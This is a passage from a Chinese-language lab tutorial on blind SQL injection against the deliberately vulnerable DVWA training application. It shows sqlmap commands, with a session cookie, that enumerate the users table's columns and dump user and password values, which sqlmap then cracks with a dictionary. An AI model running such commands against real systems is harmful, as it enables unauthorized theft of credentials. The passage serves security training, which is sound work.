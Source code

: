 得知数据表的名称，当然我们将进一步获取表中表项的内容了：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa -T users --columns
```

![show-columns](../imgs/wm_203.png)

既然都看到表项了，当然要看看具体数据：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa -T users -C "user,password" --dump
```

进过几番的询问，我们都确认，此时 sqlmap 会通过默认放在本地的字典为我们破解数据库中的密码，使其明文显示，因为通过字典匹配所以需要一定的时间：

![show-password](../imgs/wm_204.png)
